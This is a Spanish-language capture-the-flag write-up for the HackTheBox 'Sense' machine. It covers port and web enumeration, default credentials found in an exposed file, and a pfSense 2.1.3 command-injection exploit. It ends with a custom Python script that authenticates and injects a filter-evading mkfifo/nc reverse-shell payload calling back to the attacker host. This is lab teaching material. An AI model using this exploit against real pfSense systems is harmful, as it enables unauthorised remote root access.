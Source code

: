 ```yaml
---
layout: post
title: HTB_Sense
date: 2023/07/10
slug: HTB_Sense
heroImage: /assets/machines.jpg
---
```


# Sense {-}

## Introduccion {-}

La maquina del dia se llama Sense.

El replay del live se puede ver aqui

[![S4vitaar Doctor maquina](https://img.youtube.com/vi/WeaLhmbatT0/0.jpg)](https://www.youtube.com/watch?v=WeaLhmbatT0)

Esta maquina hace parte de una sesion intensa y se puede ver a partir de 3:39:30.

No olvideis dejar un like al video y un commentario...
## Enumeracion {-}

### Reconocimiento de maquina, puertos abiertos y servicios {-} 

#### Ping {-}

```bash
ping -c 1 10.10.10.60
```
ttl: 63 -> maquina Linux

#### Nmap {-}

```bash
nmap -p- --open -T5 -v -n 10.10.10.60
```

Va lento

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.60 -oG allPorts 
extractPorts allPorts
nmap -sC -sV -p80,443 10.10.10.60 -oN targeted
```


| Puerto | Servicio      | Que se nos occure? | Que falta?           |
| ------ | ------------- | ------------------ | -------------------- |
| 80     | http          | Web, Fuzzing       |                      |
| 443    | https         | Web, Fuzzing       |                      |



### Analyzando la web {-}


#### Checkear la web {-}

Si entramos en la url 
```bash
 https://10.10.10.60 
```
, vemos un panel de authentificacion de pfsense.
Teniendo esto en cuenta, miramos por internet si existen credenciales por defecto para este servicio.

Encontramos admin:pfsense pero no funcciona. Vamos a fuzzear la web

#### Fuzzing con WFuzz {-}

```bash
wfuzz -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -z list,txt-php-html http://10.10.10.60/FUZZ.FUZ2Z
```

Aqui vemos routas como:

- stats.php
- help.php
- edit.php
- system.php
- exec.php
- system-users.txt

Los recursos php nos hace un redirect a la pagina de login y la routa system-users.txt hay un mensaje para crear el usuario rohit con el 
password por defecto de la compania. probamos

```bash
rohit:pfsense
```

Hemos podido entrar. Vemos la version del servicio pfsense que es la 2.1.3.
## Vulnerability Assessment {-}

### pfSense {-}


```bash
searchsploit pfsense 2.1.3
```

Vemos un exploit de typo Command Injection.

```bash
searchsploit -m 43560
mv 43560.py pfsense_exploit_rce.py
python3 pfsense_exploit_rce.py -h
```





## Vuln exploit & Gaining Access {-}

### Ganando accesso con SSTI {-}

En el panel de ayuda vemos que nos pide nuestra ip y un puerto.

1. Nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. Lanzamos el script

    ```bash
    python pfsense_exploit_rce.py --rhost 10.10.10.60 --lhost 10.10.14.7 --lport 443 --username rohit --password pfsense
    ```

```bash
whoami
#Output
root
```

Oh my gaaaaadddddddd!!!!!!!!!

La idea aqui es crearnos nuestro proprio script en python

### Nuestro exploit {-}

```python
#!/usr/bin/python3

from pwn import *

import pdb
import urllib3
import html

def def_handler(sig, frame):
    print("\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "https://10.10.10.60/index.php"
rce_url = "https://10.10.10.60/status_rrd_graph_img.php?database=queues;"
burpsuite = {'http': 'http://127.0.0.1:8080'}
lport = 443

def makeRequest():

    s = requests.session()
    urllib3.disable_warnings()
    s.verify = False
    r = s.get(main_url)

    csrfMagic = re.findall(r'__csrf_magic\' value="(.*?)"', r.text)[0]

    data_post = {
        '__csrf_magic': csrfMagic,
        'usernamefld': 'rohit',
        'passwordfld': 'pfsense',
        'login': 'Login'
    }

    r = s.post(main_url, data=data_post)

    p1.success("Authenticacion realizada exitosamente como el usuario rohit")

    p2 = log.progress("RCE")
    p2.status("Ejecutando comando a nivel de sistema")

    r = s.get(rce_url + '''ampersand=$(printf+\"\\46\");guion=$(printf+\"\\55\");rm+${HOME}tmp${HOME}f;mkfifo+${HOME}tmp${HOME}f;
    cat+${HOME}tmp${HOME}f|${HOME}bin${HOME}sh+${guion}i+2>${ampersand}1|nc+10.10.14.7+443+>${HOME}tmp${HOME}f''')
    
if __name__ == '__main__':

    p1 = log.progress("Authenticacion")
    p2 = log.progress("RCE")
    p1.status("Iniciando proceso de autenticacion")
    try:
        threading.Thread(target=makeRequest, args=()).start()
    except Exception as e:
        log.error(str(e))

    shell = listen(lport, timeout=20).wait_for_connection()

    if shell.sock is None:
        p2.failure("No se ha obtenido ninguna conexion")
    else:
        p2.success("Se ha obtenido una conexion")
        shell.interactive()
```